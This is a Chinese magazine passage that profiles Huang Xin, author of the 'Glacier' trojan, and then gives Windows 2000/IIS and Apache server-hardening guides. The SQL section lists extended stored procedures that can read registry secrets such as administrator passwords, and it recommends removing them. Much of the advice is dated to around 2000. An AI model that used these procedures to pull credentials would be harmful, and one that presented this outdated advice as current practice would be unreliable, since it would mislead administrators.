父母都是知识分子，严格的家教使黄鑫从小学直到高中的一年级都是听话的好学生，学习成绩始终名列前茅，但父母的严教也有些偏颇，要求黄鑫将全部时间精力用在学校书本知识上，课外一切正当的兴趣爱好都不鼓励黄鑫去尝试。曾有一段时间，黄鑫迷上了书法、篆刻，这可是现在不少家长掏钱对孩子培养的方向，但当年却遭到父母的极力反对，用黄鑫自己的话说就是：“家里对此疯狂打压”，父母是怕这些爱好分散他的学习精力。即使这样，灵气十足的黄鑫还是练就了较好的书法、篆刻基本功，后来他继续按父母之命用功读书，只是对那些被迫放弃的爱好依然不舍，对不能拥有同学那样更多的业余娱乐时间心有不甘，幻想着有“解放”的那一天。终于到高中一年级时，父母因工作调动先回了湛江，暂时“没人管”的黄鑫那压抑已久的男孩淘气贪玩儿的天性在几个同学的带动下释放了出来，校内球场、校外花鸟市场随处可见他尽情玩耍的身影，打架也成家常便饭。放纵的结果是高一第一学期考试全班倒数第三名。好在这种低迷状态只持续到回湛江上高三前，在父母恢复严管与高考的重压下，学习成绩又很快上来，并顺利地考上大学。

高考时黄鑫的第一志愿报的是公安，他从小就相当想当警察，年幼时最喜欢戴“警察帽”，这是典型和常见的男孩心理特点的理想。高考分数与体检都过了录取线，无奈报名且过线的人远远多于招收名额，又无特殊关系，最终与这个理想失之交臂。但黄鑫至今认为，如果当年能被录取，自己会是个出色的警察，至少不会比现在当程序员做得差。也许当年的阴错阳差注定黄鑫终将是一个优秀的程序员而非警员，现实中这种“误打误中”的人生经历比比皆是。今天的黄鑫不应再有更多的遗憾，现在所取得的成绩已足以说明他的大脑就是为计算机技术而生，其实一切早已在冥冥之中注定。

黄鑫因“冰河”一举成名，他坦承“冰河”给他的生活带来许多的改变，有名气以及因名气间接带来的物质收益，但最让他看中的还是以“冰河”为媒结交的圈内外一大批志同道合的朋友，他视其为一生享用不尽的最大财富。酷爱金庸作品的黄鑫很认同“网络安全界”与“武林界”的许多相似之处：同样的高手如林、山外有山；同样的艺无止境、学海无涯；同样的人在江湖、义薄云天。

“冰河”也给黄鑫的生活带来很多意想不到的小烦恼和小幽默，网友们因“冰河”而对他很敬佩，更有的把他当成了“神仙”，在QQ上他就同一个网友有过这样的对话：

> 网友：“你就是‘冰河’？”
>
> 黄鑫：“是的。”
>
> 网友：“那你是不是现在就能进到我的电脑里？”
>
> 黄鑫看罢几乎要“晕倒”！

另一次，黄鑫电脑的个人防火墙有段时间经常报警显示有人对其进行扫描，一看端口正是“冰河”的默认端口7626，开始他没多介意，但时间久了难免烦人，于是黄鑫就编了一个仿“冰河”服务端，对方一连就能显示其IP，然后他用信息回复功能告之对方：“本人就是‘冰河’开发者，求你不要再骚扰我。”对方可能是不信，收效不大，无奈之下他又开了一个简易的telnet服务端程序，然后跟对方说：“请你telnet到xxx.xxx.xxx.xxx，咱们聊聊！”这下对方终于知道遇到了“真人”，没有一个人敢上来应答。

现在的黄鑫很少谈“冰河”，甚至不喜欢谈“冰河”，因为在他看来，再谈一切与“冰河”相关的话题就是犯了“好汉不提当年勇”的大忌，无异于“躺着吃老本儿”，这对于他是不能容忍的。对一个程序员而言，这意味着创造与想象力的枯竭。他现在最希望的就是人们忘记“冰河”或忘记“冰河”与他的关系，他不希望现在甚至多年以后，一提黄鑫这个名字人们记住的还只是“冰河”，就如作家不希望人们只记住他的成名作。没有进取与创新，无法再超越自我，对他们来说是最大的失败。古希腊哲人赫拉克利特认为世上万物都处在永远的变化之中，所以他说“人不可能两次涉入同一条河流”。在无休止变动的IT世界，年轻的黄鑫也不可能只开发一条“冰河”。所以没人知道“金庸迷”黄鑫“大侠”何时会“收山封刀，淡出江湖”。

## 另：黄鑫有关“冰河”彻底停止开发及“木马冰河”网站正式关闭的声明”的特别启示

> 因本文中曾提及的原因，“冰河”程序已于2000年4月17日彻底停止开发，“木马冰河”网站也于2000年5月份正式关闭。应“冰河”原创作者黄鑫的要求，再度特此声明：“冰河”的最终版本是2.2B版，其他高版本都是别人用32位编辑器自己修改所得，并未经得黄鑫本人同意。所做的修改主要限于版本号或作者等明文信息，功能上没有任何增加，其实都是以2.2以前版本为修改蓝本，黄鑫不敢保证修改者没有做过其他手脚。同时，2000年5月份至今，所有以“木马冰河”及“glacier”名义恶意修改他人页面，及2000年9月3日后在任何聊天室里以“冰河”身份冒充他人、大言不惭者，亦均非黄鑫本人。

因本刊栏目篇幅限制，声明全文请详见以下网址：http://glacier.mycool.net 另有关“冰河”的卸载方法，在此也一并作答。

最后黄鑫借本刊再次感谢广大读者、网友长期以来对“冰河”及他本人的支持与厚爱！


### 实战 Web Server

对于任何一个企业来说，网络服务器都是必不可少的，但是网络服务器的安全却一直是一个令人烦恼的问题。如何配置一台相对安全的服务器是我们急需了解的，为此，我们本期专题主要描述这个问题。和以往专题所不同的是，本期专题由 3 位作者所完成，包括 Windows 2000 和 *NIX 的具体应用以及 Web 系统日志分析的强大工具，希望能对大家有所帮助。

#### 用 Windows 2000 建立安全 Web 站点

文/chinaboy

Windows 2000 是一个先进的操作系统，在安全上改掉了以往版本的不少毛病，用 Windows 2000 建立的 Web 站点在所有的网站中占了很大一部分比例，但 2000 的安全问题也一直比较突出，使得一些基于 2000 的网站有一种如履薄冰的感觉，然而微软并没有明确的解决方案，只是推出了一个个补丁程序，各种安全文档上对于 2000 的安全描述零零碎碎，给人们的感觉是无所适从。于是，有的网管干脆什么措施也不采取，有的忙着下各种各样的补丁程序，有的在安装了防火墙以后就以为万事大吉了。这种现状直接导致了大量基于 2000 的网站的安全性参差不齐。只有极少数 2000 网站有较高的安全性。

##### 一、正确安装 Windows 2000

安装 Windows 2000 之前应该对硬盘进行重新分区、格式化，确保硬盘上没有任何数据。一台安全的服务器上绝对不能有多个操作系统，确保机器上只有 Windows 2000 一个操作系统。安装两种以上的操作系统，会给黑客以可乘之机，利用攻击使系统重启到另外一个没有安全设置的操作系统（或者他熟悉的操作系统），进而进行破坏。另外，最好准备一台配置稍差的电脑作为测试机使用。

Windows 2000 的安装应该注意安装过程中不要随便离开，不能使用无人值守安装！安装完毕，一些 Windows 可以识别的硬件驱动程序已经安装，对于需要手动安装驱动程序的硬件，只能使用硬件厂商提供的官方驱动，即硬件光盘上面所附带的驱动程序，绝对不允许从非官方网站下载驱动程序，最好不要随便升级驱动程序。另外，为了确保系统安全，绝对要用 NTFS 格式化所有分区，并且要一次性全部格式化成 NTFS 分区，不允许先格式化成 FAT 分区，再转化为 NTFS 分区。NTFS 比 FAT 分区多了安全控制功能，可以对不同的文件夹设置不同的访问权限，安全性大大增强。但是 NTFS 分区有一个潜在的危险，就是目前大多数反病毒软件没有提供对软盘启动后 NTFS 分区病毒的查杀，一旦系统中了恶性病毒而导致系统不能正常启动，后果就比较严重，所以平时必须做好防病毒工作。建议准备瑞星杀毒软件，这是目前唯一支持软盘启动后 NTFS 分区病毒查杀的软件！

将操作系统文件所在分区与 Web 数据包括其他应用程序所在的分区分开，在安装时，最好不要使用系统默认的目录。Windows 2000 安装完毕后，就开始对 Windows 2000 进行设置，完成网络设置和其他一些设置之后，开始安装系统补丁。安装当前所有的 Service Pack 和 Hot Fixes。安装的补丁应该直接来源于微软的 Windows Update，绝对不允许安装从其他非官方网站下载的补丁。除了补丁之外，不要随便升级 Windows 组件，如 IE 等，在 Windows 2000 中实现了 IE5.01 和系统的无缝整合，如果贸然升级到更高的版本，可能会带来不必要的麻烦！安装了补丁程序，以后如果要从 Windows 2000 光盘上安装新的 Windows 程序或者对 Windows 2000 进行设置，需要 Windows 2000 光盘，那么在设置完毕之后必须重新安装补丁程序。另外，还要经常关注微软最新补丁的发布，给服务器安装最新的补丁！安装 Service Pack 前应先在测试机器上安装一次，以防因为意外原因导致机器死机，同时做好数据备份。

另外，在完成设置之前绝对不能将服务器连入网络，特别是 Internet，因为 Windows 2000 安装时，在输入用户管理员账号“Administrator”的密码后，系统会建立一个“ADMIN$”的共享账号，但是并没有用刚输入的密码来保护它，这种情况一直会持续到计算机再次启动。在此期间，任何人都可以通过“ADMIN$”进入系统；同时，安装完成后，各种服务会马上自动运行，而这时的服务器还到处是漏洞，非常容易从外部侵入。

##### 二、IIS 设置

安装 IIS 时应该注意只安装 Option Pack 中必须的服务，建议不要安装 Index Server、FrontPage Server Extensions、示例 WWW 站点等功能。IIS 中的众多安全隐患是由其他一些功能引起的，如果仅做一个 WWW 站点，就安装必须的服务，这样可以减少黑客利用这些漏洞攻击的机会。

关闭不必要的服务，服务开的太多也不是个好事，将没有必要的服务通通关掉，特别是连管理员都不知道是干什么的和一些很危险的服务，免得给系统带来灾难，同时也能节约一些系统资源。建议在停掉前查阅帮助文档并首先在测试服务器上作一下测试。比如以下服务是一定要关闭的：

- Schedule
- FTP Publishing Service
- Telnet
- Terminal Services
- RunAs Service
- Telephony
- Remote Access Server
- Remote Procedure Call (RPC) Locator
- Spooler
- TCP/IP NetBIOS Helper
- Telephone Service

打开管理工具中的 Internet 服务管理器，删除“默认 Web 站点”及其下的所有目录，并且将这些文件彻底清理出硬盘！在非系统分区建立 Web 根目录，假设为：`D:\webroot\`。

在“管理 Web 站点”上单击右键，选择“新建”->“站点”。根据提示操作，站点说明假设为“Web”，目录输入 `D:\webroot\`，只给读取权限，如图 1 所示。


在“Web”的属性“主目录”中设置执行许可为“无”，“应用程序设置”、“配置”中删除不必要的 IIS 扩展名映射。最好去掉 .IDC、.HTR、.STM、.IDA、.HTW 应用程序映射，.shtml、.shtm 等如果无用，也应去掉。如果需要 ASP，那么就建立一个 `D:\webroot\cgi-bin` 目录，在“属性”“目录”里允许脚本资源访问，应用程序设置里点击“创建”，“应用程序配置”里添加对 ASP 的映射，所有 ASP 文件都放在这个目录下，在“应用程序调试”中选取“发送文本错误消息给客户”。

注意：安装新的 Service Pack 后，IIS 的应用程序映射应重新设置。安装新的 Service Pack 后，某些应用程序映射又会出现，导致出现安全漏洞。这是管理员较易忽视的一点。

##### 三、账号策略

- 1. 账号尽可能少，且尽可能少用来登录；网站账号一般只用来做系统维护，多余的账号一个也不要，因为多一个账号就会多一份被攻破的危险。
- 2. 除 Administrator 外，有必要再增加一个属于管理员组的账号；两个管理员组的账号，一方面防止管理员一旦忘记一个账号的口令还有一个备用账号；另一方面，一旦黑客攻破一个账号并更改口令，我们还有机会重新在短期内取得控制权。
- 3. 所有账号权限需严格控制，轻易不要给账号以特殊权限。
- 4. 将 Administrator 重命名，改为一个不易猜的名字。其他一般账号也应遵循这一原则，这样可以给黑客攻击增加一层障碍。
- 5. 将 Guest 账号禁用，并且重命名为一个复杂的名字，并将它从 Guest 组删掉；有的黑客工具正是利用了 Guest 的弱点，可以将账号从一般用户提升到管理员组。
- 6. 创建一个陷阱账号。什么是陷阱账号？就是创建一个名为“Administrator”的本地账户，把它的权限设置成最低，什么事也干不了的那种，并且加上一个超过 10 位的超级复杂密码。这样可以让那些 Scripts 忙上一段时间了，并且可以借此发现它们的入侵企图；或者在它的 login scripts 上面做点手脚。
- 7. 给所有用户账号一个复杂的口令，长度最少在 8 位以上，并且必须同时包含字母、数字、特殊字符。同时不要使用大家熟悉的单词（如 microsoft）、熟悉的键盘顺序（如 qwert）、熟悉的数字（如 2000）等。口令是黑客攻击的重点，口令一旦被突破，也就无任何系统安全可言了，而这往往是不少网管所忽视的地方。据测试，仅字母加数字的 5 位口令在几分钟内就会被攻破，而所推荐的方案则要安全得多。
- 8. 口令必须定期更改（建议至少两周改一次），且最好记在心里，不要在任何地方做记录。另外，如果在日志审核中发现某个账号被连续尝试，则必须立刻更改此账号（包括用户名和口令）。
- 9. 对于运行 IIS 的服务器，建议不要使用账户锁定策略，因为黑客可以通过对账号的反复登录尝试使其锁定，其后果就是任何人都无法访问 IIS 服务器，目前还没有解决的办法。
- 10. 在“本地策略”的“安全选项”里，把“Lan Manager 身份验证级别”改为“仅发送 NTLM 响应”，这样即使入侵者借助 Sniffer 得到口令的 hash，也很难破解；还可以避免直接传递值的进攻方法——尽管这是一种较高级的技巧，但是已经有人写出了可以利用的程序。把“匿名连接的额外限制”设置为“没有显式匿名权限就无法访问”；启用“在关机时清理虚拟内存交换页面”；启用“登录屏幕上不要显示上次登录的用户名”。

##### 四、修改 NTFS 的安全权限

说明：NTFS 下所有文件默认情况下对所有人（Everyone）为完全控制权限，这使黑客有可能使用一般用户身份对文件做增加、删除、执行等操作。建议对一般用户只给予读取权限，而只给管理员和 System 以完全控制权限；但这样做有可能使某些正常的脚本程序不能执行，或者某些需要写的操作不能完成，这时需要对这些文件所在的文件夹权限进行更改。建议在做更改前，先在测试机器上作测试，然后慎重更改。

- 可以参考下列设置：
- 对于所有硬盘分区：
  - System：完全控制
  - Administrator：完全控制
  - （允许将来自父项的可继承权限传播给对象）
- `\Program Files\Common Files`
  - Everyone：读取及运行
  - 列出文件目录
  - 读取
  - （允许将来自父项的可继承权限传播给对象）
- `\webroot`
  - IUSR_MACHINE：读取及运行
  - 列出文件目录
  - 读取
  - （允许将来自父项的可继承权限传播给对象）
- `\Winnt\system32`
  - 选择除了 Inetsrv 和 CertSrv 以外的所有目录，去除“允许将来自父项的可继承权限传播给对象”选项框，复制。

##### 五、打开审核策略

开启安全审核是 Win2000 最基本的入侵检测方法。当有人尝试对你的系统进行某些（如尝试用户密码、改变账户策略、未经许可的文件访问等等）入侵的时候，都会被安全审核记录下来。很多管理员在系统被入侵了几个月都不知道，直到系统遭到破坏。下面的这些审核是必须开启的，其他的可以根据需要增加：

| 策略 | 设置 |
|---|---|
| 审核系统登录事件 | 成功，失败 |
| 审核账户管理 | 成功，失败 |
| 审核登录事件 | 成功，失败 |
| 审核对象访问 | 成功 |
| 审核策略更改 | 成功，失败 |
| 审核特权使用 | 成功，失败 |
| 审核系统事件 | 成功，失败 |

##### 六、使用 EFS 加密系统

有很多人对于 EFS 不是很“感冒”，但是它确实有很多的优点。

在硬盘上加密数据的能力对于进出硬盘自身有极大的好处。另外，EFS 的应用胜过了其他三方加密方法。

访问一个加密的文件不需要用户任何的操作，先前的第三方文件加密工具需要用户每次访问文件时键入口令，它们并没有与文件系统或操作系统进行无缝集成，使用中感觉笨拙而不愿使用文件加密。

EFS 密码组结合了对称加密（DESX）和非对称加密（RSA）的优点，优于对数据使用非对称加密（用这种方法仅 FEK 被加密），数据使用对称加密进行加密，备份进程备份加密格式的文件，消除了备份操作需要访问数据的需要。

EFS 集成进文件系统，因此一个恶意的用户不能绕过文件系统访问到硬盘。而且，所有运行在内核模式的 EFS 驱动程序不能由用户直接访问。

另外，它可以和 NTFS 很好地共存，EFS 可以被认为除 NTFS 外的第二层防护，为访问一个被加密的文件，用户必须有访问到文件的 NTFS 权限。在相关 NTFS 权限的用户能看到文件夹中的文件，但不能打开文件，除非有相应的解密钥匙。同样，一个用户有相应的钥匙，但没有相应的 NTFS 权限，也不能访问到文件。所以一个用户要打开加密的文件，同时需要 NTFS 权限和解密钥匙。

然而，NTFS 权限可能被大量的方法穿越，包括口令破解程序、用户在离开前没有退出系统或系统内部的 NTFSDOS。

在 Windows 2000 下，当一个文件用 EFS 加密后，一个未授权的用户，即使访问到磁盘上的文件，但也不能访问文件上的数据，因为没有授权用户的私钥。

##### 七、TCP/IP 的筛选

Windows 2000 从 Windows NT 继承了 TCP/IP 筛选的功能。打开“网络和拨号连接”，在对外连接的网卡的 TCP/IP“属性”“高级”的选项页，如图 2 所示。


选择“TCP/IP 筛选”。因为我们对外只需提供 HTTP 服务，所以只允许 TCP 80 端口。UDP 端口禁用，因为我们的服务器不需要 UDP 端口，开着反而会成为黑客攻击的目标，所以删除！如图 3 所示。


另外，对于 NetBIOS 等协议的禁用，已经有 N 多的文章，在此不再重复。

##### 八、修改注册表加强安全

###### 1. 设置生存时间

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
DefaultTTL REG_DWORD 0x0-0xff（0-255 十进制，默认值 128）
```

说明：指定传出 IP 数据包中设置的默认生存时间（TTL）值。TTL 决定了 IP 数据包在到达目标前在网络中生存的最大时间。它实际上限定了 IP 数据包在丢弃前允许通过的路由器数量。有时，利用此数值来探测远程主机操作系统。

###### 2. 关闭 DirectDraw

```
HKLM\SYSTEM\CurrentControlSet\Control\GraphicsDrivers\DCI
Timeout REG_DWORD 0x0 即可。
```

说明：这是 C2 级安全标准对视频卡和内存的要求。关闭 DirectDraw 可能对一些需要用到 DirectX 的程序有影响，但是对于绝大多数的商业站点都应该是没有影响的。

###### 3. 防止 ICMP 重定向报文的攻击

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
EnableICMPRedirects REG_DWORD 0x0
（默认值为 0x1）
```

说明：该参数控制 Windows 2000 是否会改变其路由表，以响应网络设备（如路由器）发送给它的 ICMP 重定向消息，有时会被利用来干坏事。Win2000 中默认值为 1，表示响应 ICMP 重定向报文。

###### 4. 禁止响应 ICMP 路由通告报文

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface
PerformRouterDiscovery REG_DWORD 0x0
（默认值为 0x2）
```

说明：“ICMP 路由通告”功能可造成他人计算机的网络连接异常，数据被窃听，计算机被用于流量攻击等严重后果。此问题曾导致校园网某些局域网大面积、长时间的网络异常。因此，建议关闭响应 ICMP 路由通告报文。Win2000 中默认值为 2，表示当 DHCP 发送路由器发现选项时启用。

###### 5. 防止 SYN 洪水攻击

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
SynAttackProtect REG_DWORD 0x2（默认值为 0x0）
```

说明：SYN 攻击保护包括减少 SYN-ACK 重新传输次数，以减少分配资源所保留的时间。路由缓存项资源分配延迟，直到建立连接为止。如果 SynAttackProtect=2，则 AFD 的连接指示一直延迟到三路握手完成为止。注意，仅在 TcpMaxHalfOpen 和 TcpMaxHalfOpenRetried 设置超出范围时，保护机制才会采取措施。

###### 6. 禁止 C$、D$ 一类的缺省共享

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareServer，REG_DWORD，0x0
```

###### 7. 禁止 ADMIN$ 缺省共享

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareWks，REG_DWORD，0x0
```

###### 8. 限制 IPC$ 缺省共享

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
restrictanonymous

REG_DWORD 0x0 缺省
0x1 匿名用户无法列举本机用户列表
0x2 匿名用户无法连接本机 IPC$ 共享
```

说明：不建议使用 2，否则可能会造成你的一些服务无法启动，如 SQL Server。

###### 9. 不支持 IGMP 协议

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
IGMPLevel REG_DWORD 0x0（默认值为 0x2）
```

说明：记得 Win9x 下有个 bug，就是可以用 IGMP 使别人蓝屏，修改注册表可以修正这个 bug。Windows 2000 虽然没这个 bug 了，但 IGMP 并不是必要的，因此照样可以去掉。改成 0 后，用 route print 将看不到那个讨厌的 224.0.0.0 项了。

###### 10. 设置 ARP 缓存老化时间

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

ArpCacheLife REG_DWORD 0-0xFFFFFFFF
（秒数，默认值为 120 秒）

ArpCacheMinReferencedLife REG_DWORD 0-0xFFFFFFFF
（秒数，默认值为 600）
```

说明：如果 ArpCacheLife 大于或等于 ArpCacheMinReferencedLife，则引用或未引用的 ARP 缓存项在 ArpCacheLife 秒后到期。如果 ArpCacheLife 小于 ArpCacheMinReferencedLife，未引用项在 ArpCacheLife 秒后到期，而引用项在 ArpCacheMinReferencedLife 秒后到期。每次将出站数据包发送到项的 IP 地址时，就会引用 ARP 缓存中的项。

###### 11. 禁止死网关监测技术

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
EnableDeadGWDetect REG_DWORD 0x0
（默认值为 0x1）
```

说明：如果你设置了多个网关，那么你的机器在处理多个连接有困难时，就会自动改用备份网关。有时候这并不是一个好主意，建议禁止网关监测。

###### 12. 不支持路由功能

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
IPEnableRouter REG_DWORD 0x0（默认值为 0x0）
```

说明：把值设置为 0x1 可以使 Win2000 具备路由功能，由此带来不必要的问题。

###### 13. 做 NAT 时放大转换的对外端口最大值

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
MaxUserPort REG_DWORD 5000-65534（十进制）（默认值 0x1388——十进制为 5000）
```

说明：当应用程序从系统请求可用的用户端口数时，该参数控制所使用的最大端口数。正常情况下，短期端口的分配数量为 1024-5000。将该参数设置到有效范围以外时，就会使用最接近的有效数值（5000 或 65534）。使用 NAT 时，建议把值放大点。

###### 14. 修改 MAC 地址

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class
```

找到右窗口中说明为“网卡”的目录，比如 `{4D36E972-E325-11CE-BFC1-08002BE10318}`，展开之，在其下的 `0000`、`0001`、`0002`……的分支中找到 `DriverDesc` 的键值为你网卡的说明，比如 `DriverDesc` 的值为 `Intel (R) 82559 Fast Ethernet LAN on Motherboard`，然后在右窗口新建一个字符串值，名字为 `NetworkAddress`，内容为你想要的 MAC 值，比如 `004040404040`，然后重启计算机，使用 `ipconfig /all` 看看，MAC 地址已经改变了。

当然，微软给我们提供了更方便的工具，即组策略，但是我还是喜欢注册表。修改注册表来解决一些问题，是一个优秀的网络管理员要具备的起码素质！

##### 九、SQL 服务器的设置

微软的 SQL Server 是一种广泛使用的数据库，很多电子商务网站、企业内部信息化平台等都是基于 SQL Server 的，但是数据库的安全性还没有被人们与系统的安全性等同起来。多数管理员认为只要把网络和操作系统的安全搞好了，那么所有的应用程序也就安全了。大多数系统管理员对数据库不熟悉，而数据库管理员又对安全问题关心太少，而且一些安全公司也忽略数据库安全，这就使数据库的安全问题更加严峻了。数据库系统中存在的安全漏洞和不当的配置通常会造成严重的后果，而且都难以发现。数据库应用程序通常同操作系统的最高管理员密切相关。而 SQL Server 数据库又是属于“端口”型的数据库，这就表示任何人都能够用分析工具试图连接到数据库上，从而绕过操作系统的安全机制，进而闯入系统、破坏和窃取数据资料，甚至破坏整个系统。

首先给 SA 一个复杂的口令。SA 具有对 SQL Server 数据库操作的全部权限。遗憾的是，一部分网管对数据库并不熟悉，建立数据库的工作由编程人员完成，而这部分人员往往只注重编写 SQL 语句本身，对 SQL Server 数据库的管理不熟悉，这样很有可能造成 SA 口令为空。这对数据库安全是一个严重威胁。目前具有这种隐患的站点不在少数。

有关 SQL Server 的配置这里不再赘述，需要强调一点的是，由于 SQL 的强大功能，给黑客的入侵带来了不少的方便，比如以下的 OLE 存储过程：

- Sp_OACreate
- Sp_OADestroy
- Sp_OAGetErrorInfo
- Sp_OAGetProperty
- Sp_OAMethod
- Sp_OASetProperty
- Sp_OAStop

以及访问注册表的存储过程：

- Xp_regaddmultistring
- Xp_regdeletekey
- Xp_regdeletevalue
- Xp_regenumvalues
- Xp_regread
- Xp_regremovemultistring
- Xp_regwrite

这些都是对安全有威胁的过程，注册表存储过程甚至能够读出操作系统管理员的密码。虽然删除它们可能会造成管理器中的某些特征不能使用，但是，为了安全，还是删除吧！

##### 十、ASP 编程安全

安全不仅是网管的事，编程人员也必须在某些安全细节上注意，养成良好的安全习惯，否则，会给黑客以可乘之机。目前，大多数网站上的 ASP 程序有这样那样的安全漏洞，如果写程序的时候注意一点的话，还是可以避免的。

- 1. 涉及用户名与口令的程序最好封装在服务器端，尽量少地在 ASP 文件里出现，涉及到与数据库连接的用户名与口令应给予最小的权限。

说明：用户名与口令往往是黑客们最感兴趣的东西，如果被通过某种方式看到源代码，后果是严重的。因此要尽量减少它们在 ASP 文件中的出现次数。出现次数多的用户名与口令可以写在一个位置比较隐蔽的包含文件中。如果涉及到与数据库连接，理想状态下只给它以执行存储过程的权限，千万不要直接给予该用户以修改、插入、删除记录的权限。

- 2. 需要经过验证的 ASP 页面，可跟踪上一个页面的文件名，只有从上一页面转进来的会话才能读取这个页面。

说明：现在需要经过验证的 ASP 程序多是在页面头部加一个判断语句，但这还不够，有可能被黑客绕过验证直接进入，因此有必要跟踪上一个页面。具体漏洞见所附漏洞文档。

- 3. 当存在 ASP 的主页正在制作并没有进行最后调试完成以前，可以被某些搜索引擎机制追加为搜索对象，如果这时候有人利用搜索引擎对这些网页进行查找，会得到有关文件的定位，并能在浏览器中查看到数据库地点和结构的细节，揭示完整的源代码。

解决方案：程序员应该在网页发布前对其进行彻底的调试；安全专家需要固定 ASP 包含文件，以便外部的用户不能看它们。首先对 `.inc` 文件内容进行加密，其次也可以使用 `.asp` 文件代替 `.inc` 文件，使用户无法从浏览器直接观看文件的源代码。`.inc` 文件的文件名不用使用系统默认的或者有特殊含义、容易被用户猜测到的，尽量使用无规则的英文字母。

- 4. 有些编辑 ASP 程序的工具，当创建或者修改一个 ASP 文件时，编辑器自动创建一个备份文件，比如：UltraEdit 就会备份一个 `.bak` 文件；如你创建或者修改了 `some.asp`，编辑器自动生成一个叫 `some.asp.bak` 文件，如果你没有删除这个 bak 文件，攻击者可以直接下载 `some.asp.bak` 文件，这样 `some.asp` 的源程序就会被下载。

- 5. 在处理类似留言板、BBS 等输入框的 ASP 程序中，最好屏蔽掉 HTML、JavaScript、VBScript 语句；如无特殊要求，可以限定只允许输入字母与数字，屏蔽掉特殊字符；同时对输入字符的长度进行限制；不但在客户端进行输入合法性检查，同时要在服务器端程序中进行类似检查。

说明：输入框是黑客利用的一个目标，他们可以通过输入脚本语言等对用户客户端造成损坏；如果该输入框涉及到数据查询，他们会利用特殊查询输入得到更多的数据库数据，甚至是表的全部，因此必须对输入框进行过滤。如果为了提高效率，仅在客户端进行输入合法性检查，仍有可能被绕过，因此必须在服务器端再做一次检查。

- 6. 在用 ACCESS 做后台数据库时，如果有人通过各种方法知道或者猜到了服务器的 ACCESS 数据库的路径和数据库名称，那么他能够下载这个 ACCESS 数据库文件，这是非常危险的。

解决方法：

- ① 为你的数据库文件名称起个复杂的非常规的名字，并把它放在几层目录下。所谓“非常规”，打个比方：比如有个数据库要保存的是有关书籍的信息，可不要把它起个 `book.mdb` 的名字，起个怪怪的名称，比如 `d34ksfslf.mdb`，看看是不是像经过加密了的？再把它放在如 `./kdslf/i44/studi/` 的几层目录下，这样黑客要想通过猜的方式得到你的 ACCESS 数据库文件就难上加难了。
- ② 不要把数据库名写在程序中。假如万一给人拿到了源程序，你的 ACCESS 数据库的名字就一览无余。
- ③ 使用 ACCESS 来为数据库文件编码及加密。首先在选取“工具->安全->加密／解密数据库”，选取数据库（如：`employer.mdb`），然后直接确定，接着会出现“数据库加密后另存为”的窗口，存为：`employer1.mdb`。接着 `employer.mdb` 就会被编码，然后存为 `employer1.mdb`。

要注意的是：以上的动作并不是对数据库设置密码，而只是对数据库文件加以编码，目的是为了防止他人使用别的工具来查看数据库文件的内容。

接下来我们为数据库加密，首先打开经过编码了的 `employer1.mdb`，在打开时，选择“独占”方式。然后选取功能表的“工具->安全->设置数据库密码”，接着输入密码即可。这样即使他人得到了 `employer1.mdb` 文件，没有密码他是无法看到 `employer1.mdb` 的。

现在设置已经基本完成，可以接入网络了吧！哎，慢来！先找个“流氓”，SSS 扫描一下吧！也许有人认为这些是黑客软件，都是邪恶的，我要说：错！我们为了安全，扫描和入侵测试是必须的！要声明的是此时的服务器已经接入内部网络！扫描完毕，我们就要做最后一项工作，就是打补丁！虽然在文章的开头已经说过，但是补丁是在最后打的，这一点请牢记！

到此，我们的服务器设置已经基本完成，剩下的就是维护和管理了。虽然上面的各项安全设置都是很苛刻的，但是安全我们还是要注意的。对于网络来说，永远没有绝对安全可言，总之：在安全上无论怎样小心都是不过分的！

#### 正确配置和维护 Apache Web Server 安全性

文 / Phoenix

在 Internet 时代，主页已成为树立公司形象和展示自我天地的一个重要手段，配置一台强大且安全的 Web Server 就显得尤其重要。在众多的 Web Server 产品中，Apache 是应用最为广泛的一个产品，同时也是一个设计上非常安全的程序。但是，同其他应用程序一样，Apache 也存在安全缺陷。本文将详细介绍如何正确配置和维护 Apache Web Server 的安全性等问题。

##### 一、Apache 服务器

Apache 服务器源自美国国家超级技术计算应用中心（NCSA）的 Web 服务器项目，目前已在互联网中占据了领导地位。Apache 服务器经过精心配置之后，能适应高负荷、大吞吐量的互联网工作。快速、可靠、通过简单的 API 扩展，Perl/Python 解释器可被编译到服务器中，且完全免费，完全源代码开放。如果你需要创建一个每天有数百万人访问的 Web 服务器，Apache 是最佳选择。

##### 二、Apache 服务器的主要安全缺陷

如前所述，Apache 也存在安全缺陷，毕竟它是完全源代码开放的。Apache 服务器的安全缺陷主要是使用 HTTP 协议进行的拒绝服务攻击（Denial of Service）、缓冲区溢出攻击、被攻击者获得 root 权限，以及最新的恶意攻击者进行“拒绝服务”（DoS）攻击。合理的网络配置能够保护 Apache 服务器免遭多种攻击。

- 1. 使用 HTTP 协议进行的拒绝服务攻击（Denial of Service）的安全缺陷

攻击者会通过某些手段使服务器拒绝对 HTTP 应答，这样会使 Apache 对系统资源（CPU 时间和内存）的需求剧增，最终造成 Apache 系统变慢甚至完全瘫痪。

- 2. 缓冲区溢出的安全缺陷

攻击者利用程序编写中的一些缺陷，使程序偏离正常的流程。程序使用静态分配的内存保存请求数据，攻击者就可以发送一个超长请求使缓冲区溢出。比如一些 Perl 编写的处理用户请求的网关脚本，一旦缓冲区溢出，攻击者可以执行其恶意指令或者使系统宕机。

- 3. 被攻击者获得 root 权限的安全缺陷

该安全缺陷主要是因为 Apache 服务器一般以 root 权限运行（父进程），攻击者会通过它获得 root 权限，进而控制整个 Apache 系统。

